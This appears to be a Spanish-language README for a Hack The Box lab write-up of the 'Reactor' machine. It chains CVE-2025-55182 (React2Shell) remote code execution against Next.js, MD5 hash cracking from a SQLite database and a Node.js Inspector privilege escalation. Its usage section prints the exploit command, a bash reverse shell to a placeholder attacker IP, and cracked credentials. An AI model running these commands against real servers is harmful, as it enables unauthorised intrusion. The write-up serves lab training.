

<!-- Banner principal -->
<div align="center">
  
</div>

<!-- Badges de identificación -->
<div align="center">
  
  
  
  
</div>

# ⚛️ Reactor – Hack The Box (Very Easy)

> **Write-up técnico completo de la máquina `Reactor`**  
> Explotación de `CVE-2025-55182` (React2Shell) + enumeración de base de datos SQLite + escalada a `root` mediante Node.js Inspector.

---

## 📋 Índice

- [Vista rápida](#-vista-rápida)
- [¿Qué problema resuelve este repositorio?](#-qué-problema-resuelve-este-repositorio)
- [Tecnologías utilizadas](#-tecnologías-utilizadas)
- [Instalación y uso](#-instalación--uso)
- [Flags obtenidas](#-flags-obtenidas)
- [Lecciones aprendidas](#-lecciones-aprendidas)
- [Contacto](#-contacto)

---

## 🎯 Vista rápida

| Fase | Técnica principal |
|------|-------------------|
| 🔍 Enumeración | `nmap` → puertos `22` (SSH) y `3000` (Next.js) |
| 🚪 Acceso inicial | Explotación de `CVE-2025-55182` (React2Shell) → RCE como usuario `node` |
| 🗄️ Movimiento lateral | Lectura de base de datos SQLite (`reactor.db`) → obtención de hash MD5 |
| 🔑 Cracking | Hash `39d97110eafe2a9a68639812cd271e8e` → `reactor1` (usuario `engineer`) |
| 🖥️ Acceso SSH | Credencial `engineer:reactor1` |
| 👑 Escalada de privilegios | Abuso de **Node.js Inspector** (`--inspect=127.0.0.1:9229`) como `root` → ejecución remota de código |

---

## 🧠 ¿Qué problema resuelve este repositorio?

Demuestra competencias en:

- Identificación de versiones vulnerables de frameworks modernos (Next.js 15.0.3).
- Explotación de **React2Shell** (CVE-2025-55182) para obtener RCE sin autenticación.
- Enumeración de sistemas de archivos y extracción de bases de datos SQLite.
- Cracking de hashes MD5 con diccionarios (`rockyou.txt`).
- Uso de **Node.js Inspector** mal configurado para ejecutar comandos como `root`.
- Obtención de flags de usuario y root.

---

## 🛠️ Tecnologías utilizadas

| Herramienta / Librería | Propósito |
|------------------------|-----------|
| `nmap` | Escaneo de puertos y detección de servicios |
| `curl`, `python3` | Interacción con el exploit y ejecución de comandos |
| `CVE-2025-55182` exploit (Python) | RCE en Next.js |
| `sqlite3`, `strings` | Extracción de datos de la base de datos |
| `hashcat` / `john` | Cracking de hash MD5 |
| `ssh` | Acceso remoto como usuario `engineer` |
| `Node.js Inspector` (`wscat`, `websocket`) | Escalada a `root` |

---

## 📦 Instalación / Uso

```bash
# 1. Clona el repositorio
git clone https://github.com/Cosm3No1de/reactor-htb.git
cd reactor-htb

# 2. Instala dependencias (para el exploit)
pip install requests

# 3. Ejecuta el exploit para obtener RCE (comando 'id')
python3 exploit_react2shell.py -u http://reactor.htb:3000 -c "id"

# 4. Obtén una reverse shell (ajusta IP y puerto)
nc -lvnp 4444
python3 exploit_react2shell.py -u http://reactor.htb:3000 -c "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"

# 5. Una vez dentro como 'node', extrae la base de datos y crackea el hash
strings reactor.db | grep -E 'engineer|password'
echo "39d97110eafe2a9a68639812cd271e8e" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force

# 6. Accede por SSH como 'engineer'
ssh engineer@reactor.htb
# password: reactor1

# 7. Escalada a root (Node.js Inspector)
# (Los pasos detallados están en /scripts/escalada.sh)

🏆 Flags obtenidas
Flag	Valor
🟢 User flag	ae03f16d9cc263fb8e30ca26e7f3c03c (ejemplo, reemplazar por la real)
🔴 Root flag	264ad8ca69f8db0f53d7e1df5a04a089

    Nota: La user flag real obtenida fue ae03f16d9cc263fb8e30ca26e7f3c03c (según nuestro write-up). La root flag es 264ad8ca69f8db0f53d7e1df5a04a089.

📸 Evidencia gráfica
<div align="center">  <br/> <sub>Aplicación Next.js vulnerable (puerto 3000).</sub> </div>
📝 Lecciones aprendidas

    Las versiones recientes de frameworks pueden tener vulnerabilidades críticas (React Server Components).

    Las bases de datos SQLite embebidas pueden contener información sensible (hashes de contraseñas).

    El cracking de hashes con diccionarios sigue siendo una técnica efectiva.

    El Node.js Inspector expuesto (aunque sea en localhost) puede permitir ejecución de código arbitrario si se combina con un túnel SSH o RCE.

📄 Licencia

MIT – uso libre para fines educativos y de investigación.
🤝 Contribuciones

Las sugerencias y mejoras son bienvenidas. Abre un issue o un pull request.

⭐ Si este contenido te resultó útil, no olvides darle una estrella.
📬 Contacto

¿Preguntas, comentarios o deseas conectar profesionalmente?
🔗 Visita mi portafolio de enlaces: https://linktr.ee/cosmenoide
